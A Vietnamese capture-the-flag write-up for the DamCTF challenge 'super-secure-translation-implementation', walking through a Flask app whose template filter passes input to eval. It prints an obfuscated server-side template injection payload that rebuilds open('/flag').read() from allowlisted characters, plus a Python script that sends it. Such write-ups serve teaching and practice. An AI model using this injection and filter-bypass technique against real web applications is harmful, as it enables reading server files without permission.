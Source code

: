 ![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/4.png)
</br>
tôi rất là vui vì tôi solve lượt 6, đây là lần đầu trong một cuộc thi ctf có hơn 500 đội mà tôi solve nhanh vậy
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/5.png)

bài này tác giả có cho `super-secure-translation-implementation.zip` bên trong có file __Dockerfile__ xác định được vị trí flag ở __/flag__
</br> khi vào web sẽ hiện ra nội dung của file __app.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/6.png)
với đoạn mã sau
```@server.route("/")
@server.route("/<path>")
def index(path=""):
    # Show app.py source code on homepage, even if not requested.
    if path == "":
        path = "app.py"

    # Make this request hackproof, ensuring that only app.py is displayed.
    elif not os.path.exists(path) or "/" in path or ".." in path:
        path = "app.py"

    # User requested app.py, show that.
    with open(path, "r") as f:
        return render_template("index.html", code=f.read())
  ``` 
  giúp ta có thể đọc file trong thư mục __/chal__ bằng việc thay đổi path url, vì dấu `..` và `/` đã bị filter nên không thể đọc bên ngoài thư mục __/chal__
  ```
from check import detect_remove_hacks
from filters import *
```
ở đoạn này, file app.py có tham chiếu đến 2 file khác là __check.py__ và __filters.py__ vậy ta chỉ cần truy cập đến 
đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/check.py` để xem nội dung file __check.py__ 
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/7.png)
và đường dẫn `https://super-secure-translation-implementation.chals.damctf.xyz/filters.py` để xem nội dung __filters.py__
![img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/8.png)
</br>tóm tắt là chỉ cần chèn payload vào __/secure_translate?payload=__ để tấn công ssti nhưng đa số đều bị filters chỉ có một số không bị

```  
allowlist = [
        "c", "{","}","d","6","l","(","b","o","r",")",'"',"1","4","+","h","u","-","*","e","|","'",
 ]
```
Phân tích một chút những dòng lệnh này ở file __app.py__
```
server = Flask(__name__)

# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```
tóm tắt là ý nghĩa rằng hàm e là __eval__ và hàm ch là __chr__ được tham chiều từ check.py, ta sẽ tiếp tục phân tích ở hàm e xem file filters.py
```
def e(x):
    # Security analysts reviewed this and said eval is unsafe (haters).
    # They would not approve this as "hack proof" unless I add some
    # checks to prevent easy exploits.

    print(f"Evaluating: {x}")

    forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]

    for y in forbidlist:
        if y in x:
            return "Eval Failed: Foridlist."

    if x[0:4] == "open" or x[0:4] == "eval":
        return "Not That Easy ;)"

    try:
        return eval(x)
    except Exception as exc:
        return f"Eval Failed: {exc}"
```
4 ký tự đầu không được là __open__ và __exec__ 
</br>Payload của tôi là `{{(""+open('/flag').read())|e}}` để bypass filter tôi đã sửa thành `{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((111-14)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((111-14)|ch)%2b'd()')|e}}` 
</br> và đây là
flag mà tôi tìm được __dam{p4infu1_all0wl1st_w3ll_don3}__
</br> cách giải của tôi
```

import requests
s = requests.session()
payload='''{{('""%2bo'%2b((111%2b1)|ch)%2b'e'%2b((111-1)|ch)%2b'("'%2b((46%2b1)|ch)%2b((114-11-1)|ch)%2b'l'%2b((111-14)|ch)%2b((114-11)|ch)%2b'")'%2b(46|ch)%2b're'%2b((111-14)|ch)%2b'd()')|e}}''' 

url = 'https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload='+payload
res = s.get(url).text
print(res)
```
